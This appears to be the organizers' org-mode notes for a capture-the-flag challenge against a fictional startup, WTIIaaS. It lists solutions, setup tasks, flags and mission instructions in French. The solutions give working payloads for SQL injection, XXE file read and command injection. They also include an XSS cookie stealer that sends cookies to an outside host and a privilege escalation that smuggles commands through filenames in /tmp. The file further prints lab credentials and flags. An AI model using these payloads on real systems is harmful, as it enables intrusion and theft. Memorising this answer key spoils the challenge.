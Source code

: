 * !!! Read this file as RAW !!!

* Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
* Solutions
** DONE Breaking into the intranet
   CLOSED: [2017-03-10 Fri 21:15]
   In /old/ (leaked through robots.txt) resides a crypto challenge. Once "reversed", a login to the intranet is given.
   Email: zana.elbert@wtiiaas.csg
   Password: FallOutBoyzForever1121
   It's a simple XOR with a satic ROT-n key.
   with open("out.bin", 'rb') as output:
     print("".join(magicify(output.read() ,key)))
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (8=substr((select key_guid from apikeys limit 1,1),1,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>
** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** DONE Extract the banking info from /home/sysadmin/banking.txt.pgp
   CLOSED: [2017-03-10 Fri 01:55]
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Local privilege escalation
    Vulnerable bash script running through crontab, as sysadmin
    Create files in /tmp with filename containing trailing bash commands.
    ie run $ touch "/tmp/a;cp -R \$HOME ."
    and then $ touch "/tmp/a;chmod -R 777 sysadmin"
    This will copy sysadmin's homedir to /tmp and make it world-readable. 
*** Decrypted file content
    $ gpg --passphrase "@\!YOUcantGUESSthis#@\!" --decrypt banking.txt.pgp
    Bank account
    ------------
    SWIFT/BIC: CSGS-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** DONE Make mysql start automatically
   CLOSED: [2017-03-11 Sat 02:21]
** DONE Setup Mysql schema on image run
   CLOSED: [2017-03-11 Sat 15:05]
** WONTFIX Fix images in team (CFO/CTO)
** DONE Make API documentation in HTML
   CLOSED: [2017-03-09 Thu 16:01]
** WONTFIX Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account flag
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** DONE Automate the XSS bot
   CLOSED: [2017-03-10 Fri 15:47]
*** See ./src/wtiiaas/scripts/xss.sh

** WONTFIX Make the instructions HTML
** DONE Privilege escalation from RCE
   CLOSED: [2017-03-10 Fri 00:29]
   Bash crontab running as sysadmin, banking file is owned by sysadmin
   See ./src/wtiiaas/scripts/deletetmp.sh
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** DONE Add extra ways to login to intranet
   CLOSED: [2017-03-10 Fri 21:35]
** DONE Clean database before export
   CLOSED: [2017-03-11 Sat 15:06]
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** DONE Fix Dockerfile
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Make webserver non www-data read-ONLY
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Modify root password from ENV variable that will be set when container is RUN
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Clean .bash_history for sysadmin to show GPG symmetric password
   CLOSED: [2017-03-11 Sat 02:20]
* Flags
** CSG-CIACantBreakThisCrapto (Crypto intranet message)
** CSG-WowItsAsIfXSSIsActuallyABigDeal (XSS)
** CSG_SomeThingsAreStrange (SQLi User-Agent)
** CSG-HarvestAllTheSessions (Steal session through XSS and check CEO's messages)


* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 

